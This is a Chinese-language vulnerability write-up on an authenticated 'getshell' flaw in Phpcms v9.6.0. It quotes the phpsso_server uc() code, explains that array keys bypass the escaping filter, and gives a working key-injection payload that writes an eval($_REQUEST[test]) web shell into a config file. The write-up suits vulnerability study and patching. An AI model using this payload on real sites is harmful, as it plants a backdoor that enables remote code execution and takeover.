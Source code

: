 Phpcms v9.6.0后台getshell
=========================

一、漏洞简介
------------

phpsso\_server 后台getshell

二、漏洞影响
------------

Phpcms v9.6.0

三、复现过程
------------

漏洞来自于ROOTDIR/phpsso\_server/phpcms/modules/admin/system.php

    public function uc() {
            if (isset($_POST['dosubmit'])) {
                $data = isset($_POST['data']) ? $_POST['data'] : '';
                $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
                $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
                $config = include $filepath;
                $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
                foreach ($data as $k => $v) {
                    $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                    $new[] = "'$k'=>'$v',";
                    $uc_config .= "define('".strtoupper($k)."', '$v');\n";
                }
                $html = file_get_contents($filepath);
                $html = str_replace($old, $new, $html);
                $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
                @file_put_contents($uc_config_filepath, $uc_config);
                @file_put_contents($filepath, $html);
                $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
                showmessage(L('operation_success'), HTTP_REFERER);
            }
            $data = array();
            $r = $this->db->get_one(array('name'=>'ucenter'));
            if ($r) {
                $data = string2array($r['data']);
            }
            include $this->admin_tpl('system_uc');
        }

来自这段中的

\$data = isset(\$\_POST\[\'data\'\]) ? \$\_POST\[\'data\'\] : \'\';

和

foreach (\$data as \$k =\> \$v) {\$old\[\] = \"\'\$k\'=\>\'\".(isset(\$config\[\$k\]) ? \$config\[\$k\] :
\$v).\"\',\";\$new\[\] = \"\'\$k\'=\>\'\$v\',\";\$uc\_config .= \"define(\'\".strtoupper(\$k).\"\', \'\$v\');\\n\";}

这里接收post\[\'data\'\]数据中的key，value并写入配置文件ROOTDIR/phpsso\_server/caches/configs/uc\_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

    public function __construct() {
            if(!get_magic_quotes_gpc()) {
                $_POST = new_addslashes($_POST);
                $_GET = new_addslashes($_GET);
                $_REQUEST = new_addslashes($_REQUEST);
                $_COOKIE = new_addslashes($_COOKIE);
            }

全局过滤了post，但是这里只过滤了value，并没有过滤key

![](resource/Phpcmsv9.6.0后台getshell/media/rId24.png)

在这个地方，我们可以构造

    name="data[uc_api','11');/*]"

并在Ucenter api 地址输入:

    */eval($_REQUEST[test]);//

再进行缓存更新

![](resource/Phpcmsv9.6.0后台getshell/media/rId25.png)

就成功写入了一句话

![](resource/Phpcmsv9.6.0后台getshell/media/rId26.png)

![](resource/Phpcmsv9.6.0后台getshell/media/rId27.png)
